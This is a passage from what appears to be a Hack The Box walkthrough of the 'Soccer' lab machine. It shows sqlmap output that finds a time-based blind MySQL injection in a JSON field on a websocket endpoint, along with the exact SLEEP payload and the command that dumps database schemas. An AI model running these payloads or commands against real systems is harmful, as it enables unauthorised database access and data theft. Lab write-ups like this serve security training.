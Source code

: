```bash
[19:17:27] [INFO] target URL appears to be UNION injectable with 3 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n]
[19:17:34] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
[19:17:34] [INFO] checking if the injection point on (custom) POST parameter 'JSON #1*' is a false positive
(custom) POST parameter 'JSON #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 96 HTTP(s) requests:
---
Parameter: JSON #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"123 AND (SELECT 3483 FROM (SELECT(SLEEP(5)))LsCb)"}
---
[19:17:53] [INFO] the back-end DBMS is MySQL
[19:17:53] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
back-end DBMS: MySQL >= 5.0.12
[19:17:54] [INFO] fetched data logged to text files under '/home/ehogue/.local/share/sqlmap/output/soc-player.soccer.htb'

[*] ending @ 19:17:54 /2023-01-25/
```

It was doing blind injection which is slow. But still quicker than writing a script. I extracted the database schema.

```bash
$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data='{"id":"123*"}' --schema
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.7#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:20:10 /2023-01-25/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q]
JSON data found in POST body. Do you want to process it? [Y/n/q]
[19:20:13] [INFO] resuming back-end DBMS 'mysql'
[19:20:13] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"123 AND (SELECT 3483 FROM (SELECT(SLEEP(5)))LsCb)"}
---
...
[19:20:28] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
5
[19:20:59] [INFO] retrieved: information_schema
[19:22:16] [INFO] retrieved: performance_schema
[19:24:13] [INFO] retrieved: sys
[19:24:37] [INFO] retrieved: soccer_db
```
